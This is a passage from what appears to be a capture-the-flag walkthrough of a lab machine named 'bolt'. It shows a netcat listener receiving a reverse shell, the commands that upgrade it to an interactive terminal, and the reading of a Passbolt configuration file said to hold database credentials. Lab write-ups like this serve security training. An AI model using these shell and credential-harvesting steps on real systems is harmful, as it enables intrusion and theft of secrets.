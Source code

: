 ```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.227.222.
Ncat: Connection from 10.129.227.222:36256.
bash: cannot set terminal process group (1081): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bolt:~/demo$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bolt:~/demo$ export TERM=xterm
export TERM=xterm
www-data@bolt:~/demo$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@bolt:~/demo$ ls
app.py  config.py  __pycache__  static  templates  wsgi.py
www-data@bolt:~/demo$ stty rows 55 cols 236
```

## Config

Looking around we can find the configuration for passbolt which reveals database credentials.

```
www-data@bolt:~/demo$ cat /etc/passbolt/passbolt.php
<?php
/**
 * Passbolt ~ Open source password manager for teams
 * Copyright (c) Passbolt SA (https://www.passbolt.com)
 *
 * Licensed under GNU Affero General Public License version 3 of the or any later version.
 * For full copyright and license information, please see the LICENSE.txt
 * Redistributions of files must retain the above copyright notice.
 *
 * @copyright     Copyright (c) Passbolt SA (https://www.passbolt.com)
 * @license       https://opensource.org/licenses/AGPL-3.0 AGPL License
 * @link          https://www.passbolt.com Passbolt(tm)
 * @since         2.0.0
 */
/**
 * PASSBOLT CONFIGURATION FILE
 *
 * This is a generated configuration file, which was generated by the passbolt web installer.
 *
 * To see all available options, you can refer to the default.php file, or replace this file
 * by a copy of passbolt.default.php
 * Do not modify default.php or you may break your upgrade process.
 *
 * Read more about how to install passbolt: https://www.passbolt.com/help/tech/install
 * Any issue, check out our FAQ: https://www.passbolt.com/faq
 * An installation issue? Ask for help to the community: https://community.passbolt.com/
 */
return [
    'App' => [
        // A base URL to use for absolute links.
        // The url where the passbolt instance will be reachable to your end users.
        // This information is need to render images in emails for example
        'fullBaseUrl' => 'https://passbolt.bolt.htb',
    ],

```